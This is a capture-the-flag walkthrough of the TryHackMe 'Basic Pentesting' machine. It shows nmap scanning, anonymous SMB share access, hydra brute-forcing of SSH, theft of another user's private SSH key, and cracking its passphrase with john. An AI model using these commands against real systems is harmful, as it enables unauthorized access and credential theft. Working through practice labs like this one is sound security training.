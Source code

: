 ```bash
# PLATFORM          . THM
# CTF NAME          . Basic Pentesting
# DESCRIPTION       . This is a machine that allows you to practise web app hacking and privilege escalation
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/basicpentestingjt
```

___

- I've started scanning the target machine to get a better understanding about the environment.

```bash
sudo nmap -sSVC -T5 10.10.245.193 -p- -oN ~/workspace/ctf_workspace/basicpt
```

```
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db45cbbe4a8b71f8e93142aefff845e4 (RSA)
|   256 09b9b91ce0bf0e1c6f7ffe8e5f201bce (ECDSA)
|_  256 a5682b225f984a62213da2e2c5a9f7c2 (ED25519)

80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).

139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS

8080/tcp open  http        Apache Tomcat 9.0.7
|_http-title: Apache Tomcat/9.0.7
|_http-favicon: Apache Tomcat
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2023-11-17T07:33:09-05:00
|_clock-skew: mean: 1h40m00s, deviation: 2h53m12s, median: 0s
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb2-time: 
|   date: 2023-11-17T12:33:09
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

```

- While the scan was running, I've checked if there's a webserver running on :80 and there was one.

- However, not much information is given to us.

```
Undergoing maintenance
Please check back later
```

- Checking the source code, we get another piece of information

```html
<!-- Check our dev note section if you need to know what to work on. -->
```

- This made me try navigating to /dev or /development. The latter was working.

- The content of this page is two files, `dev.txt` and `j.txt`.

```dev.txt

2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat to host that on this server too. Haven't made any real web apps yet, but I have tried that example you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm  using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```

```j.txt
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials, and I was able to crack your hash really easily. You know our password policy, so please follow it? Change that password ASAP.

-K
```

- From these two notes, we get valuable information.

- From `dev.txt`, we find out that the webserver is using Apache and that the SMB has been configured on the host alongside with some piece of software that we're not sure if it's installed on our target or not. 

- On the other side, `j.txt` reveals that the `j` has a really weak password ; (or had, in case it was changed in the meanwhile)

- Going back to our `nmap` scan, the most attractive thing to me was the SMB server ; 

- I've checked for possible shares using 

```bash
smbclient -L \\10.10.245.193
```

and `anonymous` as a password when asked. 

```
	Sharename       Type      Comment
	---------       ----      -------
	Anonymous       Disk      
	IPC$            IPC       IPC Service (Samba Server 4.3.11-Ubuntu)
```

- There's a share called `Anonymous`;

- Can connect to it using `smbclient \\\\10.10.245.193\\Anonymous` with `anonymous` as password.

```
smb: \> ls
  .                                   D        0  Thu Apr 19 20:31:20 2018
  ..                                  D        0  Thu Apr 19 20:13:06 2018
  staff.txt                           N      173  Thu Apr 19 20:29:55 2018

		14318640 blocks of size 1024. 11093564 blocks available
```

```
smb: \> get staff.txt 
getting file \staff.txt of size 173 as staff.txt (0.7 KiloBytes/sec) (average 0.7 KiloBytes/sec)
smb: \> exit

```

```staff.txt
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but this is how mistakes happen. (This means you too, Jan!)

-Kay
```

- This file is important ; it reveals us the 2 users from the notes above, `jan` and `kay`. 

- Since we already know `Jan's` password is weak, let's try bruteforcing the SSH for this user.

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.245.193 ssh
```

**NOTE**: it takes ~10 minutes to find the password.

- Once we find the password, we're able to ssh to the box.

- I have looked around and tried different manual enumaration / looked for privilege escalation.

- By using `cat /etc/passwd | cut -d ":" -f 1 ` I've noticed that the only 2 users available on the system are `jan` and `kay`. 

- I tried to navigate to `/home/kay` and I've noticed that besides the `pass.bak` file that I couldn't read, I could navigate to `.ssh` and read the `id_rsa` key.

- With the key copied to my machine, I have tried SSHing to the box using `kay`'s key `chmod 600 id_rsa && ssh -i id_rsa kay@ip` but I have been asked for a passphase.

- I've used `python3 /opt/john/run/ssh2john id_rsa > id_rsa.hash` to format the file to something `john` can handle and then ran `john --wordlist=/usr/share/wordlists/rockyou.txt` against the file, revealing `b{redacted}x` as the passphrase.

- After being able to SSH in as kay, I was able to read the `pass.bak` file from his home, which revealed the final flag.

